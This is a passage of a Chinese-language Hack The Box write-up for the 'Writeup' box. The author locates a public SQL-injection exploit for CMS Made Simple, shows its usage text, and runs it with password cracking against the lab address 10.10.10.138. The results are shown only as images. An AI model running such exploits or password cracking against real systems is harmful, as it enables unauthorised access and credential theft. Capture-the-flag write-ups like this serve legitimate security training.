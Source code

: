 因为有很多漏洞，所以我决定在网上查找最近的漏洞，然后发现了这个:

[https://packets storm security . com/files/152356/CMS-Made-Simple-SQL-injection . html](https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQL-Injection.html)

看到这个漏洞也列在 searchsploit 结果中，我将它复制到我的工作目录中进行尝试。

![](img/67615974f01f03c8c9f5d99779637ea9.png)

检查其用法:

```
root@kali:~/Documents/htb/boxes/writeup/new# python exploit.py 
[+] Specify an url target
[+] Example usage (no cracking password): exploit.py -u [http://target-uri](http://target-uri)
[+] Example usage (with cracking password): exploit.py -u [http://target-uri](http://target-uri) --crack -w /path-wordlist
[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.
```

由于该漏洞是基于时间的盲 SQL 注入，我记下了时间，以便在需要时进行调整:

![](img/597503767f7018d0f8b9508f66e42043.png)

按照它的用法，我然后尝试利用:

```
python exploit.py -u [http://10.10.10.138/writeup](http://10.10.10.138/writeup) --crack -w /usr/share/wordlists/rockyou.txt
```

输出是:

![](img/cf087c99f004752a95931d00e15a560a.png)
